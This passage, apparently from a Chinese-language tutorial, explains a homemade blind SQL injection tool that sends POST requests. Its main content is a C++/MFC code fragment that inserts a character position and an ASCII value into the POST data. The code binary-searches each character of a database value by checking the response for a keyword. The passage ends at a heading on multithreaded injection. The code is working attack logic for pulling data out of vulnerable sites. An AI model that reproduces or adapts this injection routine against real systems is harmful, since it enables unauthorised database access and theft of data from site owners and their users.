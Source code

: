 接下来就和`GET`方式注入大同小异了，主要就是根据返回的内容以及`keyword`来判断确定每个字符。关键代码如下：

```
i=SomeParam1->i;
//和GET方式不同，这里用CString类来对字符串操作 看起来要美观一点
mdata.Delete(index1,1);  //删除*
itoa(i,buf,10);
mdata.Insert(index1,buf); //插入i
if(i>9)
{
index2+=1;//前面*位置插入了2个字符 后面*的位置要加1了
}
//以后长度就固定了 不用
char buf2[30];
wsprintf(buf2,"猜解第%d位:",i);
dresult+=buf2;
thelist->InsertItem(i-1,dresult,0);
while((right-left)!=1)
{
CString rdata;
mdata.Delete(index2,1);
if(j>10)mdata.Delete(index2,1);   //之前插入2位字符那么就要多删一次
if(j>99)mdata.Delete(index2,1);   //三位就再多删一次
j=(left+right)/2;
itoa(j,buf,10);
mdata.Insert(index2,buf);   //插入j 参与比较的字符的ASC码
wsprintf(bufx,"%c",j);
dresult+=bufx;
thelist->SetItemText(i-1,0,dresult); //显示当前参与比较的字符
CString tdata;
tdata=mdata;
rdata=Postdata(url,tdata.GetBuffer(tdata.GetLength()));//发送post请求
if (large==1)  //这里和get方式类似
{
    if(rdata.Find(keyword.GetBuffer(keyword.GetLength()))>0)
        left=j;
    else right=j;
}
   dresult.Delete(dresult.GetLength()-1,1); //删除当前参与比较的字符，即
}  //在原位置显示下一个参与比较的字符
if(large==1)
{
rbuf[i-1]=(char)right;              
wsprintf(buf,"%c\r\n",right);
}
dresult+=buf; //得到结果
dresult+="  ok!";
thelist->SetItemText(i-1,0,dresult);

```

0x02 多线程并发注入
============
